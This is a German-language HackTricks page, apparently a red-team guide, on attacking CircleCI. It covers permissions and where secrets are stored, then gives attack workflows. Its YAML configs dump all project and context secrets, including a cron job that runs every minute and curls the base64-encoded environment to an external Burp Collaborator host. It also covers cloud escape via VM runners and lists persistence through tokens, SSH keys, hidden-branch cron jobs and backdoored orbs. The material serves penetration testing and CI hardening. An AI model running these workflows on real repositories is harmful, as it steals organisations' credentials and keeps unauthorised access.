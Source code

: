 # CircleCI Sicherheit

<details>

{% hint style="success" %}
Lernen Sie und üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}

## Grundlegende Informationen

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) ist eine Continuous Integration-Plattform, auf der Sie **Vorlagen definieren** können, die angeben, was Sie mit etwas Code tun möchten und wann Sie es tun möchten. Auf diese Weise können Sie **Tests automatisieren** oder **Bereitstellungen** direkt **von Ihrem Repo-Master-Zweig** aus durchführen.

## Berechtigungen

**CircleCI** **erbt die Berechtigungen** von GitHub und Bitbucket in Bezug auf das **Konto**, das sich anmeldet.\
In meinen Tests habe ich festgestellt, dass Sie solange Sie **Schreibberechtigungen für das Repo in GitHub haben**, die **Projekteinstellungen in CircleCI verwalten können** (neue SSH-Schlüssel festlegen, Projektschlüssel abrufen, neue Zweige mit neuen CircleCI-Konfigurationen erstellen...).

Sie müssen jedoch ein **Repo-Administrator** sein, um das Repo in ein CircleCI-Projekt umzuwandeln.

## Umgebungsvariablen & Geheimnisse

Gemäß [**der Dokumentation**](https://circleci.com/docs/2.0/env-vars/) gibt es verschiedene Möglichkeiten, **Werte in Umgebungsvariablen** innerhalb eines Workflows zu laden.

### Eingebaute Umgebungsvariablen

Jeder von CircleCI ausgeführte Container wird immer [**spezifische Umgebungsvariablen haben, die in der Dokumentation definiert sind**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) wie `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` oder `CIRCLE_USERNAME`.

### Klartext

Sie können sie im Klartext innerhalb eines **Befehls** deklarieren:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Du kannst sie im Klartext in der **Ausführungsumgebung** deklarieren:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Du kannst sie im Klartext innerhalb der **build-job Umgebung** deklarieren:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Du kannst sie im Klartext innerhalb der **Umgebung eines Containers** deklarieren:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Projektgeheimnisse

Dies sind **Geheimnisse**, die nur vom **Projekt** (von **jedem Branch**) **zugänglich** sein werden.\
Sie können sie **deklariert sehen in** _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
Die "**Import Variables**" Funktionalität erlaubt es, **Variablen aus anderen Projekten zu importieren** in dieses.
{% endhint %}

### Kontextgeheimnisse

Dies sind Geheimnisse, die **org-weit** sind. Standardmäßig kann **jedes Repo** auf alle hier gespeicherten Geheimnisse zugreifen:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Jedoch beachten Sie, dass eine andere Gruppe (anstelle von Allen Mitgliedern) ausgewählt werden kann, um den Zugriff auf die Geheimnisse nur bestimmten Personen zu gewähren.\
Dies ist derzeit einer der besten Wege, um die Sicherheit der Geheimnisse zu erhöhen, um nicht jedem den Zugriff zu ermöglichen, sondern nur einigen Personen.
{% endhint %}

## Angriffe

### Suche nach Klartextgeheimnissen

Wenn Sie **Zugriff auf das VCS** (wie github) haben, überprüfen Sie die Datei `.circleci/config.yml` von **jedem Repo auf jedem Branch** und **suchen** nach potenziellen im Klartext gespeicherten Geheimnissen.

### Geheime Env-Variablen & Kontextenumeration

Überprüfen Sie den Code, um **alle Geheimnisnamen** zu finden, die in jeder `.circleci/config.yml`-Datei verwendet werden. Sie können auch die **Kontextnamen** aus diesen Dateien erhalten oder sie in der Webkonsole überprüfen: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Projektgeheimnisse exfiltrieren

{% hint style="warning" %}
Um **ALLE** Projekt- und Kontext-**GEHEIMNISSE** zu **exfiltrieren**, benötigen Sie nur **SCHREIB**-Zugriff auf **nur 1 Repo** in der gesamten github-Organisation (_und Ihr Konto muss Zugriff auf die Kontexte haben, aber standardmäßig kann jeder auf jeden Kontext zugreifen_).
{% endhint %}

{% hint style="danger" %}
Die "**Import Variables**" Funktionalität erlaubt es, **Variablen aus anderen Projekten zu importieren** in dieses. Daher könnte ein Angreifer **alle Projektvariablen aus allen Repos importieren** und dann **alle zusammen exfiltrieren**.
{% endhint %}

Alle Projektgeheimnisse sind immer in der Umgebung der Jobs festgelegt, daher werden sie durch den Aufruf von env und deren Verschleierung in base64 in der **Workflows-Web-Log-Konsole** exfiltriert:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Wenn Sie **keinen Zugriff auf die Webkonsole** haben, aber **Zugriff auf das Repository** und wissen, dass CircleCI verwendet wird, können Sie einfach **einen Workflow erstellen**, der **alle Minute ausgelöst wird** und die Geheimnisse an eine externe Adresse **exfiltriert**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Kontextgeheimnisse exfiltrieren

Sie müssen den **Kontextnamen angeben** (dies wird auch die Projektgeheimnisse exfiltrieren):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Wenn Sie **keinen Zugriff auf die Webkonsole** haben, aber **Zugriff auf das Repository** und wissen, dass CircleCI verwendet wird, können Sie einfach **einen Workflow ändern**, der **alle Minuten ausgelöst wird** und die Geheimnisse an eine externe Adresse **exfiltriert**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Das Erstellen einer neuen `.circleci/config.yml` in einem Repository reicht **nicht aus, um einen CircleCI-Build auszulösen**. Sie müssen es als Projekt in der CircleCI-Konsole **aktivieren**.
{% endhint %}

### Escape to Cloud

**CircleCI** bietet Ihnen die Möglichkeit, **Ihre Builds auf ihren Maschinen oder auf Ihren eigenen** auszuführen.\
Standardmäßig befinden sich ihre Maschinen in GCP, und anfangs werden Sie nichts Relevantes finden. Wenn jedoch ein Opfer die Aufgaben in **ihren eigenen Maschinen (möglicherweise in einer Cloud-Umgebung)** ausführt, könnten Sie einen **Cloud-Metadaten-Endpunkt mit interessanten Informationen darauf finden**.

Beachten Sie, dass in den vorherigen Beispielen alles innerhalb eines Docker-Containers gestartet wurde, aber Sie können auch **anfordern, eine VM-Maschine zu starten** (die möglicherweise über unterschiedliche Cloud-Berechtigungen verfügt):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Oder sogar ein Docker-Container mit Zugriff auf einen entfernten Docker-Dienst:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Persistenz

* Es ist möglich, **Benutzertoken in CircleCI zu erstellen**, um auf die API-Endpunkte mit den Benutzerberechtigungen zuzugreifen.
* _https://app.circleci.com/settings/user/tokens_
* Es ist möglich, **Projekt-Token zu erstellen**, um auf das Projekt mit den dem Token zugewiesenen Berechtigungen zuzugreifen.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Es ist möglich, **SSH-Schlüssel zu den Projekten hinzuzufügen**.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Es ist möglich, **einen Cron-Job in einem versteckten Branch** in einem unerwarteten Projekt zu erstellen, der täglich alle **Kontext-Umgebungsvariablen preisgibt**.
* Oder sogar in einem Branch erstellen / einen bekannten Job ändern, der täglich alle Kontext- und **Projektgeheimnisse preisgibt**.
* Wenn Sie ein GitHub-Besitzer sind, können Sie **nicht verifizierte Orbs zulassen** und einen als **Hintertür** in einem Job konfigurieren.
* Sie können eine **Befehlseinschleusungsschwachstelle** in einer Aufgabe finden und Befehle über ein **Geheimnis einschleusen**, indem Sie dessen Wert ändern.
